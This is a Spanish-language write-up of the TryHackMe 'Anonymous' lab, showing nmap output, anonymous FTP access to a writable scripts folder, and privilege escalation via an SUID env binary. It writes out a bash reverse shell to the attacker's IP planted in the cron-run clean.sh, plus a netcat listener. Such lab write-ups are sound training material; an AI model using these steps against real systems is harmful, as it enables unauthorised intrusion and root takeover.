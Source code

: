 ```yaml
---
title: "Anonymous Writeup - Try-Hack-Me"
date: 2024-01-20
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Medium]
image: 
  path: assets/img/imagenes/Anonymous.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Anonymous banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.157.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: ANONYMOUS, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: anonymous
|   NetBIOS computer name: ANONYMOUS\x00
|   Domain name: \x00
|   FQDN: anonymous
|_  System time: 2024-01-20T21:35:30+00:00
|_clock-skew: mean: -28s, deviation: 0s, median: -28s
| smb2-time: 
|   date: 2024-01-20T21:35:30
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### Ports: 21/ftp - 22/ssh - 139/smb - 445/smb 

### Enumeracion del puerto 21/ftp

```python
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.157.7
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
```
este puerto tiene una configuracion de credenciales por defecto con el usuario anonymous y tambien podemos ver que tenemos permisos writable (escritura)

### ftp 
nos conectamos al puerto ftp con las credenciales de anonymous(default) en este caso tenemos una carpeta llamada scripts la cual contiene 3 archivos, usando mget * podemos descargar todos los archivos para poder verlos mejor en local
![img](/assets/img/imagenes/Pasted image 20240120174450.png)

el archivo nmap.txt coresponde a nuestro archivo de escaneo y tenemos los 3 archivos que hemos conseguido en la maquina
![img](/assets/img/imagenes/Pasted image 20240120174740.png)

el archivo to_do.txt es un mensaje que nos dicen que han desabilitado el login de anonymous y que esto no es una practica segura. el archivo clean.sh es un script en bash que realiza una limpieza en el directorio /tmp. debido a que tenemos permisos de escritura podriamos editar este script para optener una reverse shell
![img](/assets/img/imagenes/Pasted image 20240120175113.png)

el archivo removed.files.log solo es una captura de la ejecusion del script sin embargo dice que no se encontro nungun archivo para eliminar
![img](/assets/img/imagenes/Pasted image 20240120175636.png)

### Reverse shell
lo primero que vamos hacer sera editar el script.sh para agregar una reverse shell aregando el siguiente comando `bash -c "bash -i >& /dev/tcp/10.9.157.7/9001 0>&1"` una ves hecho esto vamos al servicio ftp y vamos a subir el nuevo script para ello nos posicionamos en la misma ruta donde esta el script anterior y solo hacemos un `put clean.sh` ahora ya tenemos el nuevo script en el sistema sono nos falta ponernos a la escucha con `nc lvnp 9001` este es el puerto que hemos especificado en la reverse shell y ya solo nos queda esperar un par de minutos para conseguir una coneccion
![img](/assets/img/imagenes/Pasted image 20240120181957.png)

### intrusión
hemos ganado intrusión como el usuario namelessone
![img](/assets/img/imagenes/Pasted image 20240120183436.png)

### Escalada de privilegios
buscaremos permisos SUID utilizando el comando `find / -perm -4000 2>/dev/null` tenemos el binario `/usr/bin/env` lo cual nos permite escalar privilegios 
![img](/assets/img/imagenes/Pasted image 20240120185947.png)

### WE ARE ROOT
![img](/assets/img/imagenes/Pasted image 20240120190528.png)